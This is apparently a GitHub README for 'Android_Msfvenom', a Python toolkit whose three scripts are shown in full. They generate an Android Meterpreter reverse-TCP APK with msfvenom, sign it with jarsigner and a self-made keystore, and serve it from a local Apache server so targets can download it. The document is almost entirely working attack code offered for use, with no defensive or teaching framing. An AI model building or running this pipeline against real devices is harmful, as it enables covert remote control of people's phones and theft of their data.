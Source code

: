 ```
 ______  __   __  _____   ______  ______  __  _____       ______  ______  ______  ______  ______  ______    
/\  __ \/\ "-.\ \/\  __-./\  == \/\  __ \/\ \/\  __-.    /\  __ \/\  ___\/\  ___\/\  ___\/\  ___\/\  ___\   
\ \  __ \ \ \-.  \ \ \/\ \ \  __<\ \ \/\ \ \ \ \ \/\ \   \ \  __ \ \ \___\ \ \___\ \  __\\ \___  \ \___  \  
 \ \_\ \_\ \_\\"\_\ \____-\ \_\ \_\ \_____\ \_\ \____-    \ \_\ \_\ \_____\ \_____\ \_____\/\_____\/\_____\ 
  \/_/\/_/\/_/ \/_/\/____/ \/_/ /_/\/_____/\/_/\/____/     \/_/\/_/\/_____/\/_____/\/_____/\/_____/\/_____/ 
```                                                                                                  
#Android_Msfvenom
DESCRIPTION: A faster way to generate and sign android files, for mobile access (Can be hosted on a local apache server)
------------------------------------------------------------------------------------------------------------------------
FILE: [generate_apk.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/generate_apk.py)

USE: This file is used to generate the apk (Android Package Kit) using metasploits [Msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)

```python
import os
import time
import android_signer
import apache_server
import subprocess

#def the function to generate the apk
def android_msfvenom():
    get_gen = raw_input('[+] Generate apk using msfvenom: ')
    if get_gen == 'yes' or get_gen == 'y':
        get_name = raw_input('[+] Enter the name of the desired apk file: ')
        try:
            apk_name = get_name
        except Exception:
            print('[+] Failed to set name: {}! Exitting...'.format(apk_name))
            time.sleep(3)
        else:
            print('[+] Name set to: {}'.format(get_name))
            
        #try to change the directory
        login = os.getlogin()
        print('[+] Attempting to change directory to /{}/Desktop'.format(login))

        try:
            os.chdir('/{}/Desktop'.format(login))
        except Exception:
            working_direc = os.getcwd()
            print('[+] Could not change the directory to the desktop, look for file under {}'.format(working_direc))
        else:
            print('[+] Directory set to {}'.format(os.getcwd()))

        #get LHOST and LPORT
        get_host = raw_input('[+] Enter ip address: ')
        get_port = raw_input('[+] Enter connect back port: ')
        print('[+] Generating apk(defaulting to desktop)...')
        try:
            subprocess.call(('msfvenom -p android/meterpreter/reverse_tcp LHOST={} LPORT={} R > {}.apk'.format(get_host, get_port, get_name)), shell=True)
        except Exception:
            print('[+] Failed to generate apk! Exitting...')
            time.sleep(3)
        else:
            print('[+] Apk file successfully created! File located in {}'.format(os.getcwd()))

    elif get_gen == 'no' or get_gen == 'n':
        print('[+] Quittting...')
        exit()
        time.sleep(3)

android_msfvenom()
android_signer.sign_apk()
```

FILE: [android_signer.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/android_signer.py)

USE: This file is used to sign the apk file, that can be created using [generate_apk.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/generate_apk.py), the file is then signed using [jarsigner](http://docs.oracle.com/javase/7/docs/technotes/tools/windows/jarsigner.html), will a validity of [10,000 days](https://www.google.com/webhp?sourceid=chrome-instant&ion=1&espv=2&ie=UTF-8#q=10+000+days+in+years) (27 years)

```python
import os
import time
import apache_server
import subprocess

#def the function to sign the apk
def sign_apk():
    os.chdir(('/{}/Desktop'.format(os.getlogin())))
    subprocess.call('ls -alt', shell=True)
    get_apk = raw_input('[+] Enter the name of the apk file: ')

    try:
        keystore = raw_input('[+] Enter key store name (d for default): ')
        if keystore == 'd':
            keystore = 'my-release-key'
        else:
            keystore = keystore
        subprocess.call(('keytool -genkey -V -keystore {}.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000'.format(keystore)), 
                                                                                                                                        shell=True)
    except Exception:
        print('[+] Could not generate keystore, alias, keyalg, or keysize! Validity set to 0! Exitting...')
        time.sleep(3)
        exit()
    else:
        print('[+] Keystore, Alias, Keyalg, Keysize, and validity generated! Executing Jarsigner... ')

    try:
        subprocess.call(('jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore {}.keystore {} alias_name'.format(keystore, get_apk)), 
                                                                                                            shell=True)
    except Exception:
        print('[+] Could not execute jarsigner command line arguments! Exitting...')
        time.sleep(3)
        exit()
    else:
        print('[+] Successfully executed jarsigner! Checking if {} was successfully signed...'.format(get_apk))

    try:
        subprocess.call(('jarsigner -verify -verbose -certs {}'.format(get_apk)), shell=True)
    except Exception:
        print('[+] Could not verify that the apk {} was signed! You may run into problems later! Exitting...'.format(get_apk))
        time.sleep(3)
        exit()
    else:
        print('[+] Apk file {} was signed successfully! Executing apache server function...'.format(get_apk))
        time.sleep(2)
        server_start()

def server_start():
    apache_server.start_apache()
```

FILE: [apache_server.py](https://github.com/scriptedp0ison/Android_Msfvenom/blob/master/apache_server.py)

USE: This file is used to start the [apache2](https://httpd.apache.org/) server (/etc/init.d/apache2 start), and upload the generated apk file to /var/www/html

```python
import time
import os
import subprocess
from datetime import datetime

#def the function for uploading the apk file to the server
def start_apache():
    print('[+] Starting apache server...')
    time.sleep(3)
    try:
        subprocess.call('service apache2 start', shell=True)
    except Exception:
        print('[+] Could not start apache server! Exitting...')
        time.sleep(3)
        exit()
    else:
        subprocess.call('ls -alt /var/www/html', shell=True)
        print('[+] Apache server started!')
        time.sleep(3)
        server_upload()
        
def server_upload():
    subprocess.call('ls -alt', shell=True)
    file_upload = raw_input('[+] Apache server started! Choose file to upload to server: ')
    try:
        subprocess.call(('mv /{}/Desktop/{} /var/www/html'.format(os.getlogin(), file_upload)), shell=True)
    except Exception:
        print('[+] Could not move /{}/Desktop/{} to /var/www/html! Try moving the file manually! Apache server is up and running! Exitting...')
        time.sleep(3)
        exit()
    else:
        ip = raw_input('[+] Enter current ip address: ')
        print('[+] Ip address set to: {}'.format(ip))
        check_file = raw_input('[+] /{}/Desktop/{} was successfully move to /var/www/html! Open browser to view uploads: '.format(os.getlogin(),
                                                                                                                                    file_upload))
        if check_file == 'yes' or 'y':
            print('[+] Starting browser...')
            time.sleep(3)
            try:
                subprocess.call(('firefox {}'.format(ip)), shell=True)
            except Exception:
                print('Firefox is not installed! Trying Chrome...')
                try:
                    subprocess.call(('chrome {}'.format(ip)), shell=True)
                except Exception:
                    print('Chrome is not installed! Trying iceweasel...')
                    try:
                        subprocess.call(('iceweasel {}'.format(ip)), shell=True)
                    except Exception:
                        system = platform.system()
                        print('[+] Could not determine browser running on your {} machine! Try navigating manually! Exitting...'.format(system))
                        time.sleep(3)
                        exit()
                    else:
                        print('[+] Finished with exit code 0!')
                        exit()
                else:
                    print('[+] Finished with exit code 0!')
                    exit()
            else:
                print('[+] Finished with exit code 0!')
                exit()
        elif check_file == 'no' or check_file == 'n':
            print('[+] Exitting...')
            time.sleep(3)
```


